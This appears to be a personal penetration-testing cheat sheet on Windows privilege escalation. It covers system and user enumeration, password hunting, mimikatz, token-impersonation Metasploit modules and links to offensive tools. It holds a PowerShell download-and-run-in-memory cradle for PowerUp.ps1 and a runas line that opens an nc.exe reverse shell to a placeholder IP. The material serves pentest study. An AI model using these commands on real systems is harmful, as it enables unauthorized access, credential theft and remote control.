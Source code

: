 **Resources:**

- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

- [Sushant747 Guide](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html)

- [Absolomb Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

**Manual Enumeration:**

 System:
 
    systeminfo   
    wmic qfe get Caption,Description,HotFixID,InstalledOn  #Patch info   
    wmic logicaldisk get caption,description,providername  #Disk info
    
    dir <file> /s /p   #Find file name. /s search all folders on HD, /p pause on each screen
    
  User:
  
    whoami /priv #privileges for current user    
    whoami /groups    
    net user 
    net user <user> 

  Network: 
  
    ipconfig
    arp -a
    route print
    netstat -ano
    
   If you find network services that are only available to the local host or a dualhomed NIC you may want to [port forward](https://github.com/Kahvi-0/Cheat-Sheets/blob/master/Post%20exploitation/Windows/Port%20forwarding.md) them to your host 
    
  Password hunting:

     findstr /si password *.txt *.ini *.config
     
  AV: 
  
      sc query windefend
      sc queryex type= service
      
  Firewall:
  
      netsh advfirewall firewall dump
      netsh firewall show state
      netsh firewall show config

**Automated Enumeration**

-------------------------------------------------------------------------------------

- [winPEAS .bat](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat)

      wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat
      
 - [winPEAS .exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe)
      
-------------------------------------------------------------------------------------
    
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

Run powershell and run the following to download and run in memory

    iex(New-Object Net.WebClient).DownloadString('http://<ip>:<port>PowerUp.ps1')
    
-------------------------------------------------------------------------------------


- [Windows exploit suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

      wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py && chmod +x windows-exploit-suggester.py && ./windows-exploit-suggester.py --update
      
      # This download and will create an .xlsx database
      
       CMD "systeminfo" saved to a file 
      
      ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo sysinfo.txt 
      
      # Without 
      
      ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --ostext 'windows server 2008 r2'

-------------------------------------------------------------------------------------


- Meterpreter exploit suggester module

      post/multi/recon/local_exploit_suggester


-------------------------------------------------------------------------------------

[Meterpreter getsystem](https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/)

 Note: technique 2 writes to disk ! Which means that it can get caught by AV.

-------------------------------------------------------------------------------------

**[Kernel](https://github.com/Kahvi-0/General-Notes/blob/master/Processes%20and%20architecture/Kernel.md) Exploits**

  Knowing the build of the OS is importent to knowing what kernel version is running and what vulnerabilties that kernel version might have. If you can own the kernel, you own the system.
  
 - Research Kernel exploits shown from tool output such as the exploit suggesters.
  
 - [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)

-------------------------------------------------------------------------------------


**Password Hunting**

- Cleartext:

   Note that a lot of these will also be included in the automated enumeration tools

  - [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---looting-for-passwords)
 
- Hashed: 

  - [Pentest lab](https://pentestlab.blog/2018/04/04/dumping-clear-text-credentials/)

  - [mimikatz](https://github.com/Kahvi-0/Tools-and-Concepts/blob/master/Windows/Mimikatz.md)

     - Need process with permissions to be able to interact with the running lsass.exe process
        -  ran as NT AUTHORITY\SYSTEM
        -  Must be same arch as the lsass.exe running on the target
        
-------------------------------------------------------------------------------------

    
**[Token impersonation](https://github.com/Kahvi-0/Vulnerabilities-and-Exploitations/blob/master/Windows/Token%20impersonation%20%7C%20potato%20attacks.md)**

    whoami /priv  #windows shell
    getprivs      #meterpreter
    
  [Juicy privileges](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges) to look for.
  
  [Juicy potato](https://github.com/ohpe/juicy-potato)
  
   Meterpreter version of potato attack. Requires a meterpreter session with the same architecture as the target.

    exploit/windows/local/ms16_075_reflection_juicy   #Windows 10
    exploit/windows/local/ms16_075_reflection

-------------------------------------------------------------------------------------
   
**[RUNAS](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---runas)**
 Get a copy of nc.exe onto the target

    runas /savecred /user:<machine>\<user> "nc.exe -nv <IP> <port> -e cmd.exe"
   
-------------------------------------------------------------------------------------
 
  - [Nishang repo](https://github.com/samratashok/nishang)
